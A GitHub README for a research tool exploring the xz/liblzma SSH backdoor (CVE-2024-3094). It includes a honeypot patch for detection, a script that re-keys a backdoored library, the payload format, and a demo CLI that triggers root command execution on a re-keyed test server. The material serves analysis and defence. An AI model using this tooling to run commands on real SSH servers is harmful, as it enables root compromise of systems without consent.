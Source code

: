 # xzbot

Exploration of the xz [backdoor](https://www.openwall.com/lists/oss-security/2024/03/29/4) (CVE-2024-3094).
Includes the following:
* [honeypot](#honeypot): fake vulnerable server to detect exploit attempts
* [ed448 patch](#ed448-patch): patch liblzma.so to use our own ED448 public key
* [backdoor format](#backdoor-format): format of the backdoor payload
* [backdoor demo](#backdoor-demo): cli to trigger the RCE assuming knowledge of the ED448 private key

![xzbot demo](assets/demo.png)

## honeypot

See [openssh.patch](openssh.patch) for a simple patch to openssh that logs any
connection attempt with a public key N matching the backdoor format.

```
$ git clone https://github.com/openssh/openssh-portable
$ patch -p1 < ~/path/to/openssh.patch
$ autoreconf
$ ./configure
$ make
```

Any connection attempt will appear as follows in sshd logs:
```
$ journalctl -u ssh-xzbot --since='1d ago' | grep xzbot:
Mar 30 00:00:00 honeypot sshd-xzbot[1234]: xzbot: magic 1 [preauth]
Mar 30 00:00:00 honeypot sshd-xzbot[1234]: xzbot: 010000000100000000000000000000005725B22ED2...
```

# ed448 patch

The backdoor uses a hardcoded ED448 public key for signature validation and
decrypting the payload. If we replace this key with our own, we can trigger
the backdoor.

The attacker's ED448 key is:
```
0a 31 fd 3b 2f 1f c6 92 92 68 32 52 c8 c1 ac 28
34 d1 f2 c9 75 c4 76 5e b1 f6 88 58 88 93 3e 48
10 0c b0 6c 3a be 14 ee 89 55 d2 45 00 c7 7f 6e
20 d3 2c 60 2b 2c 6d 31 00
```

We will replace this key with our own (generated with seed=0):
```
5b 3a fe 03 87 8a 49 b2 82 32 d4 f1 a4 42 ae bd
e1 09 f8 07 ac ef 7d fd 9a 7f 65 b9 62 fe 52 d6
54 73 12 ca ce cf f0 43 37 50 8f 9d 25 29 a8 f1
66 91 69 b2 1c 32 c4 80 00
```

To start, download a backdoored libxzma shared object, e.g.
from https://snapshot.debian.org/package/xz-utils/5.6.1-1.
Then run the patch script. See [assets/](assets/) for examples.

```
$ pip install pwntools
$ shasum -a 256 liblzma.so.5.6.1
605861f833fc181c7cdcabd5577ddb8989bea332648a8f498b4eef89b8f85ad4  liblzma.so.5.6.1
$ python3 patch.py liblzma.so.5.6.1
Patching func at offset: 0x24470
Generated patched so: liblzma.so.5.6.1.patch
```

Then run sshd using this modified `liblzma.so.5.6.1.patch` shared object.

## backdoor format

The backdoor can be triggered by connecting with an SSH certificate with a
payload in the CA signing key N value. This payload must be encrypted and
signed with the attacker's ED448 key.

The structure has the following format:
```
+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+
| cmd1 (32 bit) | cmd2 (32 bit) |         cmd3 (64 bit)         |
+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+
|                                                               |
+                     ciphertext (240 bytes)                    +
|                                                               |
+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+
```

A command byte is derived from the three magic values above (`cmd1 * cmd2 + cmd3`).
If this value is greater than 3, the backdoor skips processing.

The ciphertext is encrypted with chacha20 using the first 32 bytes of the
ED448 public key as a symmetric key. As a result, we can decrypt any
exploit attempt using the following key:
```
0a 31 fd 3b 2f 1f c6 92 92 68 32 52 c8 c1 ac 28
34 d1 f2 c9 75 c4 76 5e b1 f6 88 58 88 93 3e 48
```

The ciphertext has the following format:
```
+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+
|     signature (114 bytes)     |  command \x00 |    padding    |
+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+
```

The signature is an RFC-8032 ED448 signature computed over the following values:
* The first 4 bytes of the header (i.e. cmd1)
* The first 5 bytes of the command
* The first 32 bytes of the sha256 hash of the server's hostkey

# backdoor demo

```
$ go install github.com/amlweems/xzbot@latest
```

```
$ xzbot -h
Usage of xzbot:
  -addr string
        ssh server address (default "127.0.0.1:2222")
  -seed string
        ed448 seed, must match xz backdoor key (default "0")
  -cmd string
        command to run via system() (default "id > /tmp/.xz")
```

The following will connect to a vulnerable SSH server at `127.0.0.1:2222` and
run the command `id > /tmp/.xz`:
```
$ xzbot -addr 127.0.0.1:2222 -cmd 'id > /tmp/.xz'
00000000  00 00 00 1c 73 73 68 2d  72 73 61 2d 63 65 72 74  |....ssh-rsa-cert|
00000010  2d 76 30 31 40 6f 70 65  6e 73 73 68 2e 63 6f 6d  |-v01@openssh.com|
00000020  00 00 00 00 00 00 00 03  01 00 01 00 00 01 01 01  |................|
00000030  00 00 00 00 00 00 00 00  00 00 00 00 00 00 00 00  |................|
...
00000150  00 00 00 00 00 00 00 00  00 00 00 00 00 00 00 00  |................|
00000160  00 00 01 14 00 00 00 07  73 73 68 2d 72 73 61 00  |........ssh-rsa.|
00000170  00 00 01 01 00 00 01 00  02 00 00 00 01 00 00 00  |................|
00000180  00 00 00 00 00 00 00 00  54 97 bc c5 ef 93 e4 24  |........T......$|
00000190  cf b1 57 57 59 85 52 fd  41 2a a5 54 9e aa c6 52  |..WWY.R.A*.T...R|
000001a0  58 64 a4 17 45 8a af 76  ce d2 e3 0b 7c bb 1f 29  |Xd..E..v....|..)|
000001b0  2b f0 38 45 3f 5e 00 f1  b0 00 15 84 e7 bc 10 1f  |+.8E?^..........|
000001c0  0f 5f 50 36 07 9f bd 07  05 77 5c 74 84 69 c9 7a  |._P6.....w\t.i.z|
000001d0  28 6b e8 16 aa 99 34 bf  9d c4 c4 5c b8 fd 4a 3c  |(k....4....\..J<|
000001e0  d8 2b 39 32 06 d9 4f a4  3a 00 d0 0b 0f a2 21 c0  |.+92..O.:.....!.|
000001f0  86 c3 c9 e2 e6 17 b4 a6  54 ba c3 a1 4c 40 91 be  |........T...L@..|
00000200  91 9a 2b f8 0b 18 61 1c  5e e1 e0 5b e8 00 00 00  |..+...a.^..[....|
00000210  00 00 00 00 00 00 00 00  00 00 00 00 00 00 00 00  |................|
...
00000260  00 00 00 00 00 00 00 00  00 00 00 00 00 00 00 00  |................|
00000270  00 00 00 00 00 00 00 00  00 00 00 10 00 00 00 07  |................|
00000280  73 73 68 2d 72 73 61 00  00 00 01 00              |ssh-rsa.....|
2024/03/30 00:00:00 ssh: handshake failed: EOF
```

On the vulnerable server, we can set a watchpoint for the call to `system()`
and observe the command is executed:
```
$ bpftrace -e 'watchpoint:0x07FFFF74B1995:8:x {
    printf("%s (%d): %s\n", comm, pid, str(uptr(reg("di"))))
}'
Attaching 1 probe...
sshd (1234): id > /tmp/.xz

$ cat /tmp/.xz
uid=0(root) gid=0(root) groups=0(root)
```

The process tree after exploitation looks different from a normal sshd
process tree:
```
# normal process tree
$ ssh foo@bar
$ ps -ef --forest
foo          931     765  1 18:04 ?        00:00:00  \_ sshd: foo@pts/1
foo          938     931  0 18:04 pts/1    00:00:00      \_ -bash

# backdoor process tree
$ xzbot -cmd 'sleep 60'
$ ps -ef --forest
root         941     765  4 18:04 ?        00:00:00  \_ sshd: root [priv]
sshd         942     941  0 18:04 ?        00:00:00      \_ sshd: root [net]
root         943     941  0 18:04 ?        00:00:00      \_ sh -c sleep 60
root         944     943  0 18:04 ?        00:00:00          \_ sleep 60
```

*Note: successful exploitation does not generate any INFO or higher log entries.*

# References

- https://www.openwall.com/lists/oss-security/2024/03/29/4
- https://gist.github.com/smx-smx/a6112d54777845d389bd7126d6e9f504
- https://gist.github.com/q3k/af3d93b6a1f399de28fe194add452d01
- https://gist.github.com/keeganryan/a6c22e1045e67c17e88a606dfdf95ae4
